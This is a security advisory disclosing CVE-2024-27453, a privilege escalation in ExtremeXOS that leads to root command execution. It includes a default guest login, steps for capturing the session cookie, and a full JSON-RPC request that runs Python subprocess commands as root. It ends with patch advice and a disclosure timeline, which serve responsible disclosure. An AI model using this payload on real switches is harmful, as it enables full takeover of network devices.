

SUMMARY
Jason Goss uncovered a vulnerability in version 22.6.1.4 of Extreme Networks' operating system, ExtremeXOS (EXOS), which has been designated as CVE-2024-27453. After this discovery, Extreme Networks was notified and agreed to proceed under their responsible disclosure process.
This vulnerability enables attackers to escalate privileges from a read-only user account to root by crafting a request to the Machine-to-Machine Interface (MMI). Successful exploitation allows for remote code execution (RCE) on the switch with root privileges, giving the attacker total control over the device. Additionally, the presence of a default read-only user account commonly configured on these devices significantly simplifies exploitation.
VULNERABILITY DETAILS
To exploit this vulnerability, open a browser configured to route traffic through a web proxy (e.g., Burp, OWASP ZAP). Navigate to the vulnerable device's web management portal and log in using a read-only user account. This step is simplified due to the default configuration of this version of EXOS, which includes a guest user account with the username User and no password.
Once authenticated, the version number is displayed on the left-hand side of the dashboard.
After verifying the version number from the dashboard, switch to the interception proxy and copy the cookie containing the session tokens.
Cookie: x-auth-token=[redacted]; session=[redacted]; chalet_locale=en; session_id=[redacted]; x-auth-token= [redacted].[redacted].[redacted]; session= [redacted].[redacted].[redacted]
To verify that you have the correct cookie, the x-auth-token can be base64 decoded to obtain the username, access level, and expiration (in epoch format):
{'alg':'HS256','exp':1714545903,'iat':1714459503,'username':'user','access_level':'user'}
Once obtained, a request to the python method of the Machine-to-Machine Interface (MMI) can be crafted to include the python subprocess module. This combination allows for the execution of commands as root on the host operating system (EXOS). In the example below, a request is made to obtain the environment variables (e.g., env) which contains the current username (e.g., root):
POST /jsonrpc/?show HTTP/1.1
Host: XXX.XXX.XXX.XXX
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: chalet_locale=en; session_id=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX; x-auth-token= XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX.XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX.XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX; session= XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX.XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX.XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
Connection: close
Content-Type: application/json
Content-Length: 129
{"method":"python","id":"10","jsonrpc":"2.0","params":["import subprocess\nprint\nprint subprocess.check_output([\"env\"])"]
This results in the switch returning the EXOS environmental variables including the USER variable confirming root access to the device:
RECOMMENDATIONS
CVE-2024-27453 has been addressed in EXOS versions 22.7 and later. Users are strongly advised to update their systems to the most recent version. It is also recommended to enable "Safe Defaults Mode", which removes all factory default login accounts, including the default guest account used in this article.
TIMELINE
| Date | Action |
|---|---|
| January 29, 2024 | Notified Extreme Networks about the vulnerability |
| February 7, 2024 | Discussions began with Extreme Networks |
| February 23, 2024 | Requested the CVE number |
| February 26, 2024 | Received the CVE number |
| March 22, 2024 | Extreme Networks responded with the correct Point of Contact (POC) |
| April 4, 2024 | Agreed to responsible disclosure timeline |
| April 23, 2024 | Notified about the fix and Security Advisory ID |
REFERENCES
The following references are available regarding this vulnerability: